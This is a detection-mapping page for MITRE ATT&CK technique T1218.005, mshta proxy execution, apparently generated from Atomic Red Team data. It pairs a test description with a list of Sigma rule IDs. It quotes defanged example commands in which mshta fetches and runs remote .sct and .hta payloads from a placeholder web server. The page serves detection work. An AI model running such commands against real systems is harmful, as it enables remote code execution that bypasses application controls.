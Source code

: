 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>
 
Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
## OS
  - windows


## Description:
Executes an HTA Application using JScript script engine using local UNC path simulating lateral movement.

## Executor
powershell

# Sigma Rule
 - posh_ps_win_api_susp_access.yml (id: 03d83090-8cba-44a0-b02f-0b756a050306)

 - posh_ps_malicious_keywords.yml (id: f62176f3-8128-4faa-bf6c-83261322e5eb)

 - file_event_win_csharp_compile_artefact.yml (id: e4a74e34-ecde-4aab-b2fb-9112dd01aed0)

 - proc_creation_win_csc_susp_dynamic_compilation.yml (id: dcaa3f04-70c3-427a-80b4-b870d73c94c4)

 - posh_ps_susp_windowstyle.yml (id: 313fbb0a-a341-4682-848d-6d6f8c4fab7c)

 - posh_ps_susp_networkcredential.yml (id: 1883444f-084b-419b-ac62-e0d0c5b3693f)

 - proc_creation_win_powershell_susp_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - posh_ps_susp_gwmi.yml (id: 0332a266-b584-47b4-933d-a00b103e1b37)

 - posh_ps_copy_item_system_directory.yml (id: 63bf8794-9917-45bc-88dd-e1b5abc0ecfd)

 - posh_ps_susp_keywords.yml (id: 1f49f2ab-26bc-48b3-96cc-dcffbc93eadf)

 - posh_ps_file_and_directory_discovery.yml (id: d23f2ba5-9da0-4463-8908-8ee47f614bb9)

 - proc_creation_win_mshta_susp_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_mshta_lethalhta_technique.yml (id: ed5d72a6-f8f4-479d-ba79-02f6a80d7471)

 - proc_creation_win_mshta_susp_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - proc_creation_win_mshta_susp_child_processes.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)



[back](../index.md)
